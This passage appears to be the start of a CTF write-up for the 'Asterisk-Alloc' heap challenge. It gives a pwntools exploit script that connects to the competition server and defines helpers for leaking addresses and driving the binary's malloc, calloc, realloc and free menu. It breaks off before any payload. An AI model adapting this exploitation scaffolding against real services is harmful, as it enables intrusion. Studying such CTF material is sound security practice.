 ### Asterisk-Alloc

```python
from pwn import *

local=0
remote_addr=['ast-alloc.chal.ctf.westerns.tokyo',10001]

libc=ELF('./bytedance/libc-2.27.so')

p=remote(remote_addr[0],remote_addr[1])
#context.log_level = True

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

def choice(idx):
    #ru("5. exit\n")
    #rl()
    sla(": ", str(idx))

def malloc(size, content):
    choice(1)
    sla(": ", str(size))
    sa(": ", content)

def calloc(size, content):
    choice(2)
    sla(": ", str(size))
    sa(": ", content)

def realloc(size, content):
    choice(3)
    sla(": ", str(size))
    if(size > 0):
        sa(": ", content)
    else:
        ru(":")

def rm(idx):
    choice(4)
    sla(": ", idx)

def create(size):
    realloc(size, 'AA')
    for i in range(7):
```
